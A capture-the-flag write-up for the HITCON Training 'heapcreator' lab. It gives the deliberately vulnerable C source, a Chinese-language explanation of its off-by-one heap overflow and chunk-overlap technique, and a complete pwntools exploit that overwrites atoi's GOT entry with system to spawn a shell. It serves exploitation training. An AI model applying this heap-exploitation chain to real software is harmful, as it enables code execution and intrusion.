


# ctf_wiki: chunk extend heapcreator

## HITCON Trainging lab13

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void read_input(char *buf,size_t size){
	int ret ;
    ret = read(0,buf,size);
    if(ret <=0){
        puts("Error");
        _exit(-1);
    }	
}

struct heap {
	size_t size ;
	char *content ;
};

struct heap *heaparray[10];

void menu(){
	puts("--------------------------------");
	puts("          Heap Creator          ");
	puts("--------------------------------");
	puts(" 1. Create a Heap               ");
	puts(" 2. Edit a Heap                 ");
	puts(" 3. Show a Heap                 ");
	puts(" 4. Delete a Heap               ");
	puts(" 5. Exit                        ");
	puts("--------------------------------");
	printf("Your choice :");
}

void create_heap(){
	int i ;
	char buf[8];
	size_t size = 0;
	for(i = 0 ; i < 10 ; i++){
		if(!heaparray[i]){
			heaparray[i] = (struct heap *)malloc(sizeof(struct heap));
			if(!heaparray[i]){
				puts("Allocate Error");
				exit(1);
			}
			printf("Size of Heap : ");
			read(0,buf,8);
			size = atoi(buf);
			heaparray[i]->content = (char *)malloc(size);
			if(!heaparray[i]->content){
				puts("Allocate Error");
				exit(2);
			}
			heaparray[i]->size = size ;
			printf("Content of heap:");
			read_input(heaparray[i]->content,size);
			puts("SuccessFul");
			break ;
		}
	}
}

void edit_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1);
		puts("Done !");
	}else{
		puts("No such heap !");
	}
}

void show_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Size : %ld\nContent : %s\n",heaparray[idx]->size,heaparray[idx]->content);
		puts("Done !");
	}else{
		puts("No such heap !");
	}

}

void delete_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		free(heaparray[idx]->content);
		free(heaparray[idx]);
		heaparray[idx] = NULL ;
		puts("Done !");	
	}else{
		puts("No such heap !");
	}

}


int main(){
	char buf[4];
	setvbuf(stdout,0,2,0);
	setvbuf(stdin,0,2,0);
	while(1){
		menu();
		read(0,buf,4);
		switch(atoi(buf)){
			case 1 :
				create_heap();
				break ;
			case 2 :
				edit_heap();
				break ;
			case 3 :
				show_heap();
				break ;
			case 4 :
				delete_heap();
				break ;
			case 5 :
				exit(0);
				break ;
			default :
				puts("Invalid Choice");
				break;
		}

	}
	return 0 ;
}
```

## 漏洞

edit 功能存在 off-by-one 漏洞，且溢出的单个字节可控。

```c
if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1); // size + 1    ???
		puts("Done !");
```

## 利用

程序的每一个 “heap” 由两个 chunk 组成。一个 manage chunk，一个 data chunk。Manange chunk 的 16 个字节会记录 data chunk 的长度和地址。


利用 edit 功能的可控 off-by-one，扩大第二个 heap 的 manage chunk 的 size 位。使得第二个 heap 的 manage chunk 吃掉 data chunk，产生 overlap：



free 掉 第二个 heap (也就是 `free(1)` ):



此时第二个 heap 的 data chunk 会先被 free ，然后当 free 掉他的 manage chunk 时产生 overlap。当下次 add 0x30 大小时，会得到 overlap 状态的 data chunk。

同时，下一次 add 0x30 时，先分配 0x20 大小，得到是之前的 data chunk 作为现在的 manage chunk，位于高地址。而得到的 0x40 的 data chunk，却是之前的 manage chunk，位于低地址。这样就可以利用现在的 data chunk 溢出到 manage chunk。布置 free 或者 atoi 的 got 后，即可通过 edit 功能实现 leak 和 篡改 got，进一步 getshell 。

## exp

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./heapcreator"
libc_binary = "/lib/x86_64-linux-gnu/libc.so.6"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
libc = ELF(libc_binary)

context.arch = "amd64"

def opt(idx):
    p.sendlineafter("Your choice :",str(idx))

def add(length,content):
    opt(1)
    p.sendlineafter("Size of Heap :",str(length))
    p.sendlineafter("Content of heap:",str(content))

def free(idx):
    opt(4)
    p.sendlineafter("Index :",str(idx))

def edit(idx,content):
    opt(2)
    p.sendlineafter("Index :",str(idx))
    p.sendlineafter("Content of heap : ",str(content))

def show(idx):
    opt(3)
    p.sendlineafter("Index :",str(idx))

add(0x18,"aaaa") # 0
add(0x10,"aaaa") # 1
edit(0,"b"*0x18 + "\x41") # chunk extend
free(1)
add(0x30,"c"*0x20 + p64(0x30) + p64(elf.got["atoi"]))
show(1)
p.recvuntil("Content : ")
libc_base = u64(p.recv(6).ljust(8,"\0")) - libc.sym["atoi"]
system_addr = libc_base + libc.sym["system"]
log.success("system address id -> " + hex( system_addr ))

edit(1,p64(system_addr))
p.sendline("/bin/sh\x00")

# gdb.attach(p,"set $h=0x603000")

p.interactive()
```
